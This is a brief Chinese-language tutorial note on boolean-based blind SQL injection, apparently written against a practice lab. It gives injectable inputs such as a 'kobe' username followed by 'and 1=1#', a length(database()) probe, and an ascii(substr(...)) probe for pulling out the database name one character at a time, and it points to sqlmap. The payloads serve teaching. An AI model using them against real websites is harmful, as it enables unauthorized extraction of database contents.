



# 基于布尔（boolian）盲注

　　基于boolean的盲注主要表现症状：

　　1.没有报错信息。

　　2.不管是正确的输入，还是错误的输入，都只显示两种情况 (我们可以认为是0或者1)在正确的输入下，输入and 1=1/and 1=2发现可以判断。

　　‍

　　‍

　　kobe' and 1=1#

　　kobe' and 1=2#

　　第一个有正确的回显，第二个不是，则可以判断出这个是存在注入的。

　　很明显**回显只有两种（利用回显进行判断）** ，且我们的语句都为真，才能出现正确的回显。我们可以利用，length(),substr(),ascii()等等，来拼接，根据回显来一个一个来判断和获取字符。（超级麻烦，建议这种直接交给工具sqlmap）

　　‍

　　先来对数据库名的长度来判断

　　kobe' and length(database())>6#

　　kobe' and length(database())>7#

　　得出数据库名有7位

　　我们再对第一个字符进行判断

　　先进行范围判断再进行精准判断

　　**kobe' and ascii(substr(database(),1,1))=112#**   //ascii表 112对应p

　　以此类推
